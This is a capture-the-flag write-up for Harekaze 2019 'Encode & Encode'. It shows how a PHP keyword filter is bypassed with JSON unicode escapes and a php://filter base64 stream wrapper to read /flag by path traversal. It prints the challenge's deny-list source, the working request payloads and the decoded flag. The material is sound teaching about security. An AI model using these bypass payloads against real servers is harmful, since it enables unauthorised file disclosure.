


# Harekaze 2019 "Encode & Encode" (100)
Write-up by James Martindale

## Description
I made a strong WAF, so you definitely can’t read the flag!  
http://problem.harekaze.com:10001
(if you cannot access the URL, please use http://153.127.202.154:1001 .)

* [encode-and-encode.tar.xz](https://github.com/TeamHarekaze/HarekazeCTF2019-challenges/blob/master/encode_and_encode/attachments/encode-and-encode.tar.xz)

## Solution
I really enjoyed this problem, and it's *totally* because of the subject material and has absolutely *nothing* to do with the fact that it's the only problem I could solve this CTF.

It also sorta reminded me why I stopped using PHP.

### Where's the flag?
Poking around is fun and all, but at some point I want to get a flag or something. And in order to do that, I need to know where the flag is.

Extracting `encode-and-encode.tar.xz` yields a directory that I'm assuming was used to set up the server:

```
encode-and-encode
├── Dockerfile
├── chall
│   ├── index.html
│   ├── pages
│   │   ├── about.html
│   │   └── lorem.html
│   └── query.php
└── php.ini
```

I have no clue how Docker works, but I figure that `Dockerfile` might have *something* useful. So I open it up in a text editor hoping that it's a plain text file, and I was not disappointed:

```dockerfile
FROM php:7.3-apache

COPY ./php.ini $PHP_INI_DIR/php.ini
COPY ./chall /var/www/html
RUN echo "HarekazeCTF{<redacted>}" > /flag

EXPOSE 80

```

Line 5 looks very, very interesting. I guess the challenge server has a slightly different `Dockerfile` with the flag, which it outputs to a file called `flag` at the container root.

Well, knowing where the flag is hidden is certainly helpful, but like,

### How do I get to the flag?
In `Dockerfile` we see that `chall` gets copied into `/var/www/html`, so I guess that means we have to find some way to go up in the directory path.

That points us to a trick called Directory Traversal. I basically knew nothing about it except what it's called, but that's what Google is for. A quick search led me to OWASP's wiki article on [path traversal](https://www.owasp.org/index.php/Path_Traversal).

The general idea is to find a part of the application that accesses a file and give it a naughty little path that exposes the private bits of the system you want to access. The key to this trick is generous usage of `..`, the hidden file in every \*nix and Windows folder that points to parent directory of the current directory. Theoretically you can chain enough of these to go as far up as you'd like, and then work your way down from there.

So, where can I jam this magical string into the challenge server?

### Attack Vector
Here's the body of `index.html` for the challenge server:

```html
<body>
  <h1>Encode & Encode</h1>
  <ul>
    <li><a href="#pages/about.html" class="link">About</a></li>
    <li><a href="#pages/lorem.html" class="link">Lorem ipsum</a></li>
    <li><a href="query.php?source">Source Code</a></li>
  </ul>
  <hr>
  <div id="content"></div>
  <script>
  window.addEventListener('DOMContentLoaded', () => {
    let content = document.getElementById('content');
    for (let link of document.getElementsByClassName('link')) {
      link.addEventListener('click', () => {
        fetch('query.php', {
          'method': 'POST',
          'headers': {
            'Content-Type': 'application/json'
          },
          'body': JSON.stringify({
            'page': link.href.split('#')[1]
          })
        }).then(resp => resp.json()).then(resp => {
          content.innerHTML = resp.content;
        })
        return false;
      }, false);
    }
  }, false);
  </script>
</body>
```

We can see that each link in the page is given an event listener, which takes the portion after `#` in the `href` attribute, sets it as the value of the `page` property of a JSON object, and then POSTs that JSON object to `query.php`. Interacting with the webpage and comparing the results to `about.html` and `lorem.html` shows that the response from `query.php` is the contents of the file requested.

All we need to do is send our own requests with a specially crafted URL and we'll be able to get at that `/flag` [mwahahaha].

I chose to use [Insomnia](https://insomnia.rest) for sending my requests. Other HTTP clients like Postman or cURL would work just fine. Making your own `fetch()` calls in the developer console or something would work too. Heck, you could get away with just using Inspect Element to modify link `href`s on the page if you felt like it. But I don't feel like it, so I'm using Insomnia.

Since `index.html` is in `/var/www/html/chall`, we just need to replace each folder with `..` to get to the root. So `/../../../../flag` allows us to traverse from the web root to the flag file.

The request is quite simple:

*This screenshot is just for people curious on how to set up this request in Insomnia. For the rest of this write-up I'll just show the request method, URL, and body.*

Anyway, we get back an unfortunate response:
```json
{
    "content": "<p>invalid request<\/p>"
}
```

Curses! What happened?

### Encode
In the `encode-and-encode` folder (and linked to in `index.html`) we have the source to `query.php`:

```php
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

`is_valid()` is called with the `page` property we send in our request, and if it returns false we get an invalid request message. How rude.

`$banword` is an array of naughty strings that this "WAF" doesn't like, with `..` as the very first one. Now what?

Remember OWASP's article about [path traversal](https://www.owasp.org/index.php/Path_Traversal)? The **Request Variations** section talks about encoding periods and slashes to avoid detection. Hmm...

Luckily for us, `is_valid()` is called with our the request before it is decoded from the JSON, so it won't translate JSON-escaped characters to regular characters.

A quick Google search taught me JSON's format of escaping characters: `\uXXXX` where `XXXX` is the UTF-16 code unit for that character. The OWASP article lists the percent escape version of a period, `%2e`, so from there I guessed that the JSON version would be `\u002e`.

Of course, `..` isn't the only naughty string the WAF doesn't like. The third element in `$banword` is `flag`. We'll need to escape that too. Or rather, we only need to escape one of the letters for the string "flag" to no longer be present in our request. I have a particular fondness for the letter F so I chose to escape it, though you may choose whatever letter you like (as long as it's, you know, in the word "flag"). Handily enough, Wikipedia's article on [the letter F](https://en.wikipedia.org/wiki/F) tells us that the UTF-16 code unit for a lowercase F is `U+0066` (lowercase letters come after uppercase letters in the character table, so it's the second code point listed).

So, let's replace all of our `.` with `\u002e` and the F with `\u0066`:
```json
POST http://153.127.202.154:1001/query.php
{
    "page": "\u002e\u002e/\u002e\u002e/\u002e\u002e/\u002e\u002e/\u0066lag"
}
```

And here's the response:
```json
{
    "content": "HarekazeCTF{&lt;censored&gt;}\n"
}
```

If you're stupid like me, you're going to submit `HarekazeCTF{<censored>}` as the flag. And you're going to be disappointed.

### & Encode
OK, so I guess that didn't work either. What's up?

The last part of `query.php` is the problem:

```php
// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

If the "WAF" sees that the content it's about to return contains something that looks like the flag, it censors it. How do we get around that ???

I'll admit, I was pretty stumped for a while.

So far we've done one encode, the JSON escape thingy. But the challenge is called "Encode & Encode". I wonder if that means something...


Let's take another look at `$banword`:

```php
$banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
];
```

We've bypassed two of the elements in that array, but there's one we haven't touched. This weird thing called "stream wrappers". They wouldn't put it in there unless it was important, right?



I went back to the fountain of all information, Google, and searched for something along the lines of "PHP stream wrapper vulnerabilities". Wasn't really sure what I was looking for, since I have no clue what stream wrappers are. I found an article from the blog of RIPS (a static analysis tool for finding security vulnerabilities #notsponsored) called [New PHP Exploitation Technique Added](https://blog.ripstech.com/2018/new-php-exploitation-technique/). That sounded exciting.

Even more exciting was the first code block on the page:
```php
include($_GET['file'])
include('php://filter/convert.base64-encode/resource=index.php');
include('data://text/plain;base64,cGhwaW5mbygpCg==');
```

That second line looks like some weird funky stream wrapper that encodes what comes after it as base64, I think. That means the "WAF" won't be able to find the flag to censor!

So now our request body looks like this:
```json
{
    "page": "php://filter/convert.base64-encode/resource=\u002e\u002e/\u002e\u002e/\u002e\u002e/\u002e\u002e/\u0066lag"
}
```

Since the "WAF" blocks out `php:`, we just need to escape out one of the P's when we put in the base64 stream wrapper. Another trip to Wiki[p](https://en.wikipedia.org/wiki/P)edia is all we need to find that we can swap out `p` for `\u0070` to make one last request:
```json
POST http://153.127.202.154:1001/query.php
{
    "page": "\u0070hp://filter/convert.base64-encode/resource=\u002e\u002e/\u002e\u002e/\u002e\u002e/\u002e\u002e/\u0066lag"
}
```

And the response:
```json
{
    "content": "SGFyZWthemVDVEZ7dHVydXRhcmFfdGF0dGF0dGFfcml0dGF9Cg=="
}
```

ok this is epic !!!

Of course, this is in base64, and I want the flag in plain text. To do this conversion I could be a Cool Dude™ and use my bash environment to decode it:
```sh
$ echo 'SGFyZWthemVDVEZ7dHVydXRhcmFfdGF0dGF0dGFfcml0dGF9Cg==' | base64 -d
HarekazeCTF{turutara_tattatta_ritta}
```

But to be honest, I just used https://www.asciitohex.com/. Hope they enjoyed my ad revenue.

Flag: `HarekazeCTF{turutara_tattatta_ritta}`

I asked my Japanese friend if that meant anything and he said it was gibberish. Google Translate didn't tell me much:

